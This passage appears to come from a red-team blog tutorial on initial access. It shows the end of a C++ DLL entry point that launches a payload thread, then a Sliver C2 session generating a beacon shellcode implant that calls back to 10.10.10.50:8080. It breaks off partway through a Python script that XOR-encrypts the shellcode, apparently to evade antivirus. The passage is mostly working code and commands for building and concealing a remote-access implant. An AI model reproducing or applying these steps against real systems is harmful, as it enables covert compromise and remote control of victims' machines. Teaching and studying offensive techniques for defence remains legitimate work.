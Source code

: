 ```c++
		th = CreateThread(NULL, 0, main, NULL, 0, NULL);
		CloseHandle(th);

	}
	case DLL_THREAD_ATTACH:
	case DLL_THREAD_DETACH:
	case DLL_PROCESS_DETACH:
		break;
	}
	return TRUE;
}
```
`sliver` will be our c2 framework, so let's generate the shellcode
```shell
deb@debian:~/Desktop/blog/InitialAccess/post/assets$ sliver
Connecting to localhost:31337 ...
[*] Loaded 2 aliases from disk
[*] Loaded 4 extension(s) from disk

    ███████╗██╗     ██╗██╗   ██╗███████╗██████╗
    ██╔════╝██║     ██║██║   ██║██╔════╝██╔══██╗
    ███████╗██║     ██║██║   ██║█████╗  ██████╔╝
    ╚════██║██║     ██║╚██╗ ██╔╝██╔══╝  ██╔══██╗
    ███████║███████╗██║ ╚████╔╝ ███████╗██║  ██║
    ╚══════╝╚══════╝╚═╝  ╚═══╝  ╚══════╝╚═╝  ╚═╝

All hackers gain exalted
[*] Server v1.5.43 - e116a5ec3d26e8582348a29cfd251f915ce4a405
[*] Welcome to the sliver shell, please type 'help' for options

[*] Check for updates with the 'update' command

sliver > generate --mtls 10.10.10.50:8080 beacon --arch 64bit -f shellcode --seconds 10 --skip-symbols --disable-sgn

[*] Generating new windows/amd64 beacon implant binary (10s)
[!] Symbol obfuscation is disabled
[*] Build completed in 7s
[!] Shikata ga nai encoder is disabled
[*] Implant saved to /home/deb/Desktop/blog/InitialAccess/post/assets/SHINY_EAR.bin

sliver >
```
{: .nolineno }
using the following python script, we will encrypt the generated sliver shellcode
```python
import sys

# XOR Encryption function
def xor_encrypt_decrypt(data, key):
    key_len = len(key)
    encrypted_decrypted_data = bytearray()
    for i in range(len(data)):
        encrypted_decrypted_data.append(data[i] ^ key[i % key_len])  # XOR each byte
    return encrypted_decrypted_data

# Encrypt the file
def encrypt_file(input_file, output_file, key):
    # Read the input file
    with open(input_file, 'rb') as f:
        data = f.read()

    # XOR encrypt/decrypt the file's data
    encrypted_data = xor_encrypt_decrypt(data, key)
```